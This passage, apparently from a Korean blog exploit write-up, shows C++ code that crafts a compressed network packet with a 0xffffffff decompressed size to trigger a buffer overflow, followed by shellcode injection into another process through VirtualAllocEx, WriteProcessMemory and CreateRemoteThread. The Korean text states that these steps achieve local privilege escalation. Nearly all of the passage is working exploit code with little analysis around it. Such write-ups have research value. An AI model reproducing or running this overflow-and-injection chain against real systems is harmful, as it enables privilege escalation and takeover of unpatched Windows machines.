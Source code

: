 ```cpp

	uint8_t* packet = (uint8_t*)malloc(sizeof(buf) + 0x10 + len);
	if (packet == NULL) {
		printf("Couldn't allocate memory with malloc()\n");
		return error_exit(sock, NULL);
	}

	memcpy(packet, buf, sizeof(buf));
	*(uint64_t*)(packet + sizeof(buf)) = 0x1FF2FFFFBC;
	*(uint64_t*)(packet + sizeof(buf) + 0x8) = 0x1FF2FFFFBC;
	memcpy(packet + sizeof(buf) + 0x10, buffer, len);

	if ((err = send(sock, (const char*)packet, sizeof(buf) + 0x10 + len, 0)) != SOCKET_ERROR) {
		recv(sock, response, sizeof(response), 0);
	}

	free(packet);
	return err;
}
```

머 대충 저렇게 `decompressed size` 를 0xffffffff 로 지정해서 오버플로 터지게 세팅해주고 해당 compress data 를 전송하면 된다.

### Injecting Shellcode

```cpp
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	if (hProc == NULL) {
		printf("Could not open process\n");
		return;
	}

	LPVOID lpMem = VirtualAllocEx(hProc, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (lpMem == NULL) {
		printf("Remote allocation failed\n");
		return;
	}		
	if (!WriteProcessMemory(hProc, lpMem, shellcode, sizeof(shellcode), 0)) {
		printf("Remote write failed\n");
		return;
	}	
	if (!CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)lpMem, 0, 0, 0)) {
		printf("CreateRemoteThread failed\n");
		return;
	}
```

마지막 쉘코딩 인젝션은 다음과 같이 하면 성공적으로 LPE 를 획득 할 수 있다.

# Finally
